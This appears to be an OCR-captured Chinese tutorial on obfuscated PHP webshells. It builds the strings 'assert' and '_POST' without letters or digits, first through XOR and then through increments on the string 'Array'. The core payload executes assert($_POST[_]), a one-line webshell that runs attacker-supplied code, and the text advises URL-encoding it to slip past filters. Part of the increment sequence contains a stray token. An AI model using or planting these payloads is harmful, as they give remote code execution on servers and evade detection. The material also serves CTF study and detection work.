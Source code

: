 ```
var_dump(&#39;#&#39;^&#39;|&#39;); 		//得到字符 _
var_dump(&#39;.&#39;^&#39;~&#39;); 		//得到字符 P    
var_dump(&#39;/&#39;^&#39;`&#39;); 		//得到字符 0    
var_dump(&#39;|&#39;^&#39;/&#39;); 		//得到字符 S    
var_dump(&#39;{&#39;^&#39;/&#39;); 		//得到字符 T    
$__=(&#34;#&#34;^&#34;|&#34;).(&#34;.&#34;^&#34;~&#34;).(&#34;/&#34;^&#34;`&#34;).(&#34;|&#34;^&#34;/&#34;).(&#34;{&#34;^&#34;/&#34;);  		//变量$__值为字符串&#39;_POST&#39;
```

payload

```
&lt;?php
$_ = &#34;!((%)(&#34;^&#34;@[[@[\\&#34;;   //构造出assert
$__ = &#34;!&#43;/((&#34;^&#34;~{`{|&#34;;   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
```

&gt; 由于我们的Payload中含有一些特殊字符，我们我们需要对Payload进行一次URL编码

### 自增

`$&#43;&#43;`对变量进行了自增操作,由于我们没有定义的值，PHP会给赋一个默认值`NULL==0`

通过这个原理，可以在不使用任何数字的情况下,通过对未定义变量的自增操作来得到一个数字

```
&#34;A&#34;&#43;&#43; =&gt; &#34;B&#34;
&#34;B&#34;&#43;&#43; =&gt; &#34;C&#34;
```

那所有的字符都从a开始

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为&#34;Array&#34;。再取这个字符串的第一个字母，就可以获得&#34;A&#34;

```
&lt;?php
$a = &#39;&#39;.[];
var_dump($a);
```

在不使用任何数字的情况下，通过对未定义变量的自增操作来得到一个数字

```
&lt;?php
$_=[].&#39;&#39;;   	//得到&#34;Array&#34;
$___ = $_[$__];   	//得到&#34;A&#34;，$__没有定义，默认为False也即0，此时$___=&#34;A&#34;
$__ = $___;   	//$__=&#34;A&#34;
$_ = $___;   	//$_=&#34;A&#34;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;   	//得到&#34;S&#34;，此时$__=&#34;S&#34;
$___ .= $__;   	//$___=&#34;AS&#34;
$___ .= $__;   	//$___=&#34;ASS&#34;
$__ = $_;   	//$__=&#34;A&#34;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;   //得到&#34;E&#34;，此时$__=&#34;E&#34;
$___ .= $__;   //$___=&#34;ASSE&#34;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__;$__&#43;&#43;;   //得到&#34;R&#34;，此时$__=&#34;R&#34;
$___ .= $__;   //$___=&#34;ASSER&#34;
$__&#43;&#43;;$__&#43;&#43;;   //得到&#34;T&#34;，此时$__=&#34;T&#34;
$___ .= $__;   //$___=&#34;ASSERT&#34;
$__ = $_;   //$__=&#34;A&#34;
$____ = &#34;_&#34;;   //$____=&#34;_&#34;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;   //得到&#34;P&#34;，此时$__=&#34;P&#34;
```
